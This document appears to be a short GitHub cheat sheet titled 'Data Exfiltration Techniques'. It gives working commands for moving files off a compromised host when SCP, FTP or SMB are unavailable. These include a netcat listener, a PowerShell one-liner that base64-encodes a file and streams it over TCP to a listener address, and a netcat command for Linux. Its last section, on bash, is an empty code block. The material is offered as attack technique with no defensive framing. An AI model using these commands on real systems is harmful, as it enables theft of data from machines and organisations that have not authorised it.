 # Data Exfiltration Techniques
## This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.
### Windows To Linux
Setup NetCat listener on Linux host:

```
nc -nlvp %ListeningPort% | base64 -d > file.ext
```

On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

### Linux To Linux
Setup NetCat listener on Linux host:

```
nc -nlvp port > file.ext
```

On the Linux host connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext 
```

If NetCat is unavailable, this can be done with bash:

```

```
